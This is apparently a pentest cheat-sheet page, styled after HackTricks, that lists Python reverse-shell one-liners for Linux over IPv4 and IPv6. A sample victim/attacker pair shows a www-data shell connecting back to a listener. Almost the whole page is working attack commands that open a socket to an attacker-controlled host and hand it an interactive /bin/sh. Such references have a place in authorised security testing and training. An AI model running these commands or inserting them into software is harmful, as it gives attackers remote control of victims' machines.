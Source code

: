 	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[Reverse Shells - Linux](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)

[**#Python**]
```
#Linux

export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#IPv6

python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("192.168.56.118",5555));[os.dup2(s.fileno(),fd) for fd in(0,1,2)];pty.spawn("/bin/sh")'`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.127] 52906 ←
```

</🔄 Alternative Step.>
